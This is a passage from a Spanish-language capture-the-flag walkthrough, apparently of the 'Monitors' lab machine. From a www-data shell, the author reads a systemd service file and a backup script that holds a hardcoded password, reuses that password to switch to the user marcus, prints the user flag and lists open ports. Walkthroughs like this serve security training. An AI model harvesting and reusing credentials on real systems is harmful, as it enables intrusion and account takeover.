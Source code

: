 Leemos el archivo y dentro nos muestra que dentro del directorio oculto `.backup` se encuentra un archivo `backup.sh`.


```bash
www-data@monitors:/home/marcus$ cat /etc/systemd/system/cacti-backup.service 
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
```

Leemos el archivo `backup.sh` y encontramos unas credenciales.

```bash
www-data@monitors:/home/marcus$ cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

Probamos la contraseña y podemos convertirnos en el usuario `marcus` y ahora si podemos visualizar la primera flag `user.txt`.

```bash
www-data@monitors:/home/marcus$ su marcus
Password: 
marcus@monitors:~$ whoami
marcus
marcus@monitors:~$ cat /home/marcus/user.txt 
055c999cf2967582c6bd59b2cd7fd44f
```

Enumerando el sistema al lista los puertos abiertos en la maquina, vemos un puerto curioso `8443`.

```bash
marcus@monitors:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      1 10.10.10.238:59308      1.1.1.1:53              SYN_SENT   
tcp        0    138 10.10.10.238:38574      10.10.16.3:443          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       1      0 10.10.10.238:80         10.10.16.3:38872        CLOSE_WAIT
```
